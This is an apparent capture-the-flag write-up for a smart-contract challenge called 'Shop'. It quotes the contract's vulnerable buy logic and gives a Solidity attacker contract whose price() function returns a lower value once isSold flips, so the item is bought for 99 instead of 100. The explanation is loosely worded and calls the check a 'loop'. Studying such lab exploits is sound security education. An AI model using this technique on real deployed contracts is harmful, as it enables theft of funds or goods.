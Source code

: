 # Shop

---
Objective: 
- Сan you get the item from the shop for less than the price asked?
---

The vulnerability lies in that we can interact as the Buyer with setting our own prices after returning the price with a check on how `isSold()` right after it is sold.

So in the Shop contract we have this code snippet

```solidity 
// during this call, isSold is false
if (_buyer.price() >= price && !isSold) {
// the state will change for isSold
isSold = true;
// during this call, isSold is true
price = _buyer.price();
}
```

That is where we come in. Since the switch for `isSold` is in the midst of the loop we can edit the value in our Buyer contract before it calls the price. Therefore we can write this: 
```solidity
function hack() external {
    target.buy();
    require(target.price() == 99, "price != 99");
  }

  function price() external view returns (uint) {
    if (target.isSold()) {
      return 99;
    }
    return 100;
  }
```

